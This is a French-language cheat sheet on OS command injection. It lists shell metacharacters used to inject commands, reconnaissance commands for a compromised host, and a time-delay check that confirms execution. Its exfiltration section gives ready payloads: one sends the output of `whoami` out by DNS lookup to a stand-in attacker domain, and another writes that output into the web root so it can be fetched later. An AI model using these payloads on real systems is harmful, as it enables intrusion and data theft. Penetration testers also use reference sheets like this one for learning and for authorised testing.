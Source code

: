 # Cheatsheet sur l'Injection de Commandes OS (Command Injection)

## Méta-caractères de Shell

### Séparateurs de Commandes Communs sur Windows et Unix
- `&`
- `&&`
- `|`
- `||`

### Séparateurs de Commandes Spécifiques à Unix
- `;`
- `Newline (0x0a ou \n)`

### Inline Execution sur Unix
- `` `injected command` ``
- `$(injected command)`

## Comportements Particuliers
- Différents méta-caractères ont des comportements subtiles différents.

## Contexte entre Guillemets
- Terminer le contexte en utilisant `" ou '`.

## Commandes de Reconnaissance
Quand une vulnérabilité d'injection de commandes OS est identifiée, ces commandes peuvent être utiles pour obtenir des informations sur le système compromis.

### Linux et Windows
| But de la Commande     | Linux       | Windows      |
|------------------------|-------------|--------------|
| Nom de l'utilisateur   | `whoami`    | `whoami`     |
| Système d'exploitation | `uname -a`  | `ver`        |
| Configuration réseau   | `ifconfig`  | `ipconfig /all` |
| Connexions réseau      | `netstat -an`| `netstat -an`|
| Processus en cours     | `ps -ef`    | `tasklist`   |

## Exfiltration de Données
- Utiliser un canal hors bande pour exfiltrer les données.
  ```& nslookup `whoami`.kgji2ohoyw.web-attacker.com &```
  
- Rediriger la sortie vers un fichier que vous pouvez ensuite récupérer via le navigateur.
  ```& whoami > /var/www/static/whoami.txt &```

## Injection de Délai Temporel
- Utiliser une commande qui déclenche un délai temporel pour confirmer que la commande a été exécutée.
  ```& ping -c 10 127.0.0.1 &```

